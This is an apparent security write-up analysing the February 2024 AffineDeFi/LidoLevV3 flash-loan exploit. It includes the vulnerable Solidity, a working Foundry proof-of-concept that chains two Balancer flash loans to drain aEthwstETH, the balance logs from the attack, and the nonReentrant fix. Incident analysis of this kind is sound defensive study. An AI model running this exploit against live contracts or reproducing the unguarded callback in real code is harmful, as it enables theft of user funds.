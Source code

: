 
# AffineDeFi


## What's AffineDeFi?

Affine is the world's first cross-chain investment and savings app. We make it simple for users to onboard funds in an efficient and affordable manner using Polygon while gaining access to investment opportunities on multiple chains.

## Amount stolen
~$88K USD

Feb 1, 2024

## Vulnerability
Reentrancy

## Analysis

The exploiter successfully repaid the initial flash loan using a subsequent flash loan.

### Vulnerable code

```solidity
    /// @notice Callback called by balancer vault after flashloan is initiated.
    function _flashLoan(uint256 amount, LoanType loan, address recipient) internal {
        ERC20[] memory tokens = new ERC20[](1);
        tokens[0] = WETH;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = amount;
        BALANCER.flashLoan({
            recipient: IFlashLoanRecipient(address(this)),
            tokens: tokens,
            amounts: amounts,
            userData: abi.encode(loan, recipient)
        });
    }
```

```solidity

function receiveFlashLoan(
    ERC20[] memory, /* tokens */
    uint256[] memory amounts,
    uint256[] memory, /* feeAmounts */
    bytes memory userData
) external override {
    if (msg.sender != address(BALANCER)) revert onlyBalancerVault();

    uint256 ethBorrowed = amounts[0];

    // Decode the userData to get the LoanType
    (LoanType loan, address newStrategy) = abi.decode(userData, (LoanType, address));

    // Switch or if-else statement to handle different LoanTypes
    if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
    } else if (loan == LoanType.invest) {
        _addToPosition(ethBorrowed);
    } else if (loan == LoanType.upgrade) {
        _payDebtAndTransferCollateral(LidoLevV3(payable(newStrategy)));
    } else {
        _rebalancePosition(ethBorrowed, loan);
    }

    // Payback wETH loan
    WETH.safeTransfer(address(BALANCER), ethBorrowed);
}

   function _addToPosition(uint256 ethBorrowed) internal {
        // withdraw eth from weth
        WETH.withdraw(ethBorrowed);

        (bool success,) = payable(address(WSTETH)).call{value: ethBorrowed}("");

        require(success, "LLV3: WstEth failed");
        // Deposit wstETH in AAVE
        AAVE.deposit(address(WSTETH), WSTETH.balanceOf(address(this)), address(this), 0);

        // Borrow 90% of wstETH value in ETH using e-mode
        uint256 ethToBorrow = ethBorrowed - WETH.balanceOf(address(this));
        AAVE.borrow(address(WETH), ethToBorrow, 2, 0, address(this));
    }
```

# proof of concept (PoC) 


### first flash loan:
-  `flashloan` is called with `amount[0] = 318973831042619036856`
- The Balancer pool initiates a flash loan of WETH to the `LidoLevV3` contract, using the specified `userencodeData` 


`userencodeData` is to determine the action

LidoLevV3.sol
```solidity
   /// @notice The different reasons for a flashloan.
    enum LoanType {
        invest,
        divest,
        upgrade,
        incLev,
        decLev
    }
```

### LidoLevV3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the flash loan.
- The `LoanType.divest` case is triggered in the `receiveFlashLoan` function.
- `_endPosition` is called, which involves repaying debt in AAVE, unlocking collateral, and converting it back to ETH.

### Second Flash Loan:
- `flashloan` is called with `amount2[0] = 0`.
- The Balancer pool initiates a flash loan of 0 WETH to the `LidoLevV3` contract,
- using the specified `userencodeData2`. 

### LidoLev3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the second flash loan.
- The `LoanType.upgrade` case is triggered in the `receiveFlashLoan` function.
- 

```solidity

 function testExploit() external {
        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance before attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );

        bytes memory userencodeData = abi.encode(1, address(this));
        bytes memory userencodeData2 = abi.encode(2, address(this));
        uint256[] memory amount = new uint256[](1);
        uint256[] memory amount2 = new uint256[](1);
        IERC20[] memory token = new IERC20[](1);

        token[0] = IERC20(WETH);
        amount[0] = 318973831042619036856;
        amount2[0] = 0;
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount, userencodeData);
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount2, userencodeData2);

        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance after attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );
    }
```

### Balance Check:

Logs:
```
  Exploiter aEthwstETH balance before attack: 0.000000000000000000
  Exploiter aEthwstETH balance after attack: 33.698806193381635860
```

### Funds Movement Analysis:
- The first flash loan involves borrowing WETH, leveraging it in the `LidoLevV3` contract, and repaying the flash loan.
- The second flash loan involves repaying the flash loan without borrowing additional funds.


### Exploited Code
When the `LoanType` is `LoanType.divest`, the `_endPosition` function is called, which handles the divestment logic and ultimately repays the first flash loan. This ensures that the funds borrowed in the first flash loan are used as part of the divestment process, resulting in the repayment of the initial flash loan.

```solidity
if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
```



### How did they resolve this problem?

`nonReentrant` was added to prevent Reentrancy on the flash loan, to ensure the first flash loan gets repaid within the same
transaction


```solidity
 function _flashLoan(uint256 amount, LoanType loan, address recipient) internal nonReentrant {
        ERC20[] memory tokens = new ERC20[](1);
        tokens[0] = WETH;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = amount;
        BALANCER.flashLoan({
            recipient: IFlashLoanRecipient(address(this)),
            tokens: tokens,
            amounts: amounts,
            userData: abi.encode(loan, recipient)
        });
    }
```

The addition of `require(_reentrancyGuardEntered(), "LLV3: Invalid FL origin");` serves as an additional layer of security to reinforce the protection against reentrancy issues during flash loans

```solidity
 function receiveFlashLoan(
        ERC20[] memory, /* tokens */
        uint256[] memory amounts,
        uint256[] memory, /* feeAmounts */
        bytes memory userData
    ) external override {
        if (msg.sender != address(BALANCER)) revert onlyBalancerVault();
        require(_reentrancyGuardEntered(), "LLV3: Invalid FL origin");
```



## Conclusion
While the first flash loan involved leveraging and borrowing funds,
the second flash loan aimed at repaying the flash loan without additional borrowing.
The funds moved within the LidoLevV3 contract during the flash loan transactions. 
The contract logs the balance of aEthwstETH before and after the flash loan attacks.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/AffineDeFi_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
